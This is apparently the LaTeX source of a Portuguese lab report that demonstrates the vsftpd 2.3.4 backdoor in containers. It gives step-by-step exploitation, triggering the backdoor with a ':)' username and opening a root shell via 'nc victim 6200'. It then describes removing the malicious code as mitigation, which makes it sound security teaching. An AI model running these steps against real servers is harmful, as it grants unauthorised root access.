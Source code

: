 \documentclass[12pt,a4paper]{article}
\begin{document}
\section{Demonstração da Exploração}
\subsection{Passo a passo}
\begin{enumerate}
	\item Subir os containers com \texttt{make up}.
	\item Abrir um shell na vítima com \texttt{make victim}.
	\item Acessar o diretório do código-fonte com \texttt{cd /opt/vsftpd-2.3.4-infected}.
	\item Compilar e iniciar o servidor com \texttt{make} e \texttt{./vsftpd vsftpd.conf}.
	\item Em outro terminal, abrir o shell do atacante com \texttt{make attacker}.
	\item Conectar ao serviço FTP com \texttt{ftp victim}.
	\item Quando o prompt solicitar o nome do usuário, informar uma string contendo \texttt{':)'}.
	\item Encerrar a sessão FTP e aguardar a ativação do backdoor.
	\item Conectar na porta 6200 com \texttt{nc victim 6200}.
	\item Executar \texttt{whoami} para confirmar o contexto do shell obtido.
\end{enumerate}

\subsection{Impacto observado}
A exploração concedeu uma shell remota sem autenticação adicional. Em nosso ambiente, o processo da vítima foi executado com privilégios de root, portanto o comando \texttt{whoami} retornou \texttt{root}. Em uma implantação real, o impacto seria equivalente aos privilégios da conta usada para iniciar o daemon.

\section{Estratégia de Mitigação}
\begin{itemize}
	\item \textbf{Correção implementada:} os dois trechos maliciosos mostrados acima foram removidos: o gatilho no login em \texttt{str.c} e a função \texttt{vsf\_sysutil\_extra()} em \texttt{sysdeputil.c} (incluindo sua declaração em \texttt{sysdeputil.h}).
\end{itemize}
\end{document}
